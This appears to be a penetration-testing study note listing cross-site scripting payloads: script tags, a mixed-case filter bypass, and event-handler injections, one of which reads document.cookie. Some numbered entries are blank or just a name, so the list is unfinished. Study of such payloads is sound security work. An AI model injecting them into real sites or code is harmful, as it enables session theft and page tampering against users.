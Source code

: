 
### 10 Top XSS Payloads 


1- `<script>alert("1")</script>`  


2- `<sCript> alert("bypassing simple filters") </sCRIpt>` 


3- PentesterLab 


4- `<a onmouseover="alert(document.cookie)">xxs link</a> | <a onmouseover=alert(document.cookie)>xxs link</a>`


5- `<img src='zzzz' onerror='alert(1)' />` 


6- `<div style="color:red" onclick=alert('xss')>`  | Coloring is adding to see the div


7- `<div style="color:green" onmouseover=alert('xss') >`

8- 


9- 


10- 


[__Complete List of XSS Payloads:__](https://github.com/nairuzabulhul/RoadMap/blob/master/PTP/Web_Security/XSS_Payload_List.txt)

